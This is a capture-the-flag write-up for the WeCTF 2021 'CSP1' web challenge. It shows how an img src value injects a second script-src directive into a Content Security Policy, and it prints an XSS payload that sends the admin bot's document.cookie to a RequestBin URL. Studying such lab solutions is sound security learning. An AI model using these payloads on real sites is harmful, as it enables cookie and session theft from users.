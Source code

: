 ```yaml
---
title: "WeCTF 2021"
categories: [Writeups]
layout: post 
---
```


# WeCTF 2021

## Team Placing: #117 / 574

This was a Web-only CTF that had some really cool challenges. I wasn't able to play as much as I wanted to, but I did get to struggle with a few challenges and learned a ton from the writeups!

The following writeup is a walkthrough a challenge which involved bypassing the Content Security Policy (CSP) on a website via CSP policy injection, allowing for a Cross-Site-Scripting (XSS) attack, and ultimately the stealing of the cookies of an Admin Bot.

### Solvers: This challenge was a collaborative effort between myself and my teammate [Dayton (dayt0n)](https://github.com/dayt0n)
### Challenge: CSP1
### Category: Web 

## Description:

#### Shame on Shou if his web app has XSS vulnerability. More shame on him if he does not know how to use CSP correctly.

#### Hint: Search Content-Security-Policy if you don't know what that is and check your browser console.

## Walkthrough:

Navigating to the provided URL, we're presented with a page that looks like this:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.001.png)

We can provide HTML such as `<h1>This is a test</h1>` and after we hit submit, it will be displayed to us on the next page. However, if we try to insert JavaScript via `<script>` tags, we are blocked by the [`Content Security Policy (CSP)`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

Since we're given the source code for the site, let's take a look at how the CSP is implemented:

```javascript
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

From the code it looks like the [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) directive being set to `none` is the cause of our issues. The `script-src` directive specifies valid sources for JavaScript, and it being set to `none` means, as you would expect, there are no valid sources. 

So.. how do we get around this? Well you might notice that there is another directive, `img-src` which is using our input to specify valid sources for images:

```javascript
img_urls = [x['src'] for x in bs(content).find_all("img")]
...
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
```

So, the code will parse any `<img>` tags for the URL provided in the `src` parameter, and insert those URLs into the CSP. This means that we can perform a [CSP policy injection attack](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#policy-injection)!

Now that we have a good idea of the exploit, let's craft it:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.002.png)

```javascript
<img src="http://; script-src 'unsafe-inline'"></img>
<script>alert(1)</script>
```

So, because the CSP is simply inputting the "URL" in the `src` parameter into the CSP, we can easily inject a duplicate `script-src` directive, but we will set ours to `unsafe-inline` allowing us to use inline `<script>` tags. And because of the way CSP works, our version of the directive will take precedence.

Let's fire off our test and see if works:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.003.png)

Popped!

Nice, so we've successfully exploited the vulnerability but the flag is actually held in the Admin Bot's cookies. So, let's change our exploit a little bit to allow us to steal his cookie:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.004.png)

```javascript
<img src="http://; script-src 'unsafe-inline'"></img>
<script>window.location = 'https://requestbin.io/1fy84do1?cookie=' + document.cookie;</script>
```

Great, this exploit will make the Admin Bot navigate to our [RequestBin](https://requestbin.io/) link, with his cookie set as the value of a GET parameter, allowing us to inspect the request and thus see the cookie.

Let's send the final exploit to the Admin Bot, and inspect the RequestBin:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.005.png)

And there's the flag! Pretty cool challenge that highlighted one of the easier ways to get around CSP.

### Flag: we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}